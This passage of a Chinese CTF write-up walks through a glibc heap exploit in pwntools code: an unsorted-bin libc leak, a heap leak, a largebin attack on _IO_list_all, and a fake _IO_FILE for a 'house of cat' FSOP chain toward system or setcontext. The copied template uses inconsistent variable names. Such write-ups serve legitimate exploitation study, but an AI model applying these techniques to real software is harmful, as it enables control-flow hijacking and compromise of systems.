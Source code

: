 

初步能想到的就是先 `ub` 泄露 `libc` 地址，然后通过 `largebin` 覆盖 `bk` 和 `fd` 来泄露堆地址。

```python
add(0x460, b'\x00', b'\x00')  # 0
add(0x440, b'\x00', b'\x00')  # 1
delete(0)
show(0)

sh.recvuntil(b"Content: \n")
libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
print("libc_base >>>", hex(libc_base))

menu(1)
sh.sendlineafter(b"Size: ", str(0x480).encode())
edit(0, b'A'*0x10, b'\x00')
show(0)

sh.recvuntil(b'A'*0x10)
heap_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x290
print("heap_base >>>", hex(heap_base))
```

至此，我们有了 4 个可控的堆地址还有 `libc_base` 和 `heap_base`

因为 libc 版本较高，所以考虑伪造 `_IO_File` 的方式劫持程序流。`MARK` 用的是 `house of emma + house of apple` 构造两个 `fake_io_file` ，一个修改 `pointer_guard` 一个用来做 `house_of_emma`，我在搜的时候看到 `house of cat` 可以不用修改 `pointer_guard` 只使用一个 `fake_io_file`，所以就试了试。

还是选择通过 `FSOP` 的方法来调用链子。先通过 `largebin attack` 把 `_IO_list_all` 的链表头修改成我们的 `chunk1` 地址

```python
largebin_fd = libc_base + 0x1ebfe0
io_list = libc_base + libc.sym['_IO_list_all']

edit(0, p64(largebin_fd)*2 + p64(heap_base + 0x290) + p64(io_list-0x20), b'\x00')
delete(1)

menu(1)
sh.sendlineafter(b"Size: ", str(0x480).encode())
```

然后直接用链子构造 `fake_io`，这个模板直接在攻击手法介绍里就能找到。

```python
# 原链
fake_io_addr=heapbase+0xb00 # 伪造的fake_IO结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(2) # rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```
